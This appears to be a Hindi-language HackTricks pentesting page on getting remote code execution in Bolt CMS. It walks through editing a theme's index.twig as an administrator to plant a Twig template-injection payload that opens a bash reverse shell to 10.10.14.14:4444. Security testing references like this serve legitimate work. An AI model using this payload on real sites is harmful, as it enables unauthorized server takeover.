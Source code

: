 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

प्रशासक के रूप में लॉगिन करने के बाद (लॉगिन प्रॉम्प्ट तक पहुँचने के लिए /bot पर जाएँ), आप Bolt CMS में RCE प्राप्त कर सकते हैं:

- `Configuration` -> `View Configuration` -> `Main Configuration` चुनें या URL पथ `/bolt/file-edit/config?file=/bolt/config.yaml` पर जाएँ
- थीम का मान जांचें

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates` चुनें
- पिछले चरण में पाए गए थीम बेस (इस मामले में `base-2021`) का चयन करें और `index.twig` चुनें
- मेरे मामले में यह URL पथ /bolt/file-edit/themes?file=/base-2021/index.twig में है
- इस फ़ाइल में अपने पेलोड को [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php) के माध्यम से सेट करें, जैसे: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- और परिवर्तनों को सहेजें

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache` में कैश साफ़ करें
- फिर से एक सामान्य उपयोगकर्ता के रूप में पृष्ठ तक पहुँचें, और पेलोड निष्पादित होना चाहिए

{{#include ../../banners/hacktricks-training.md}}
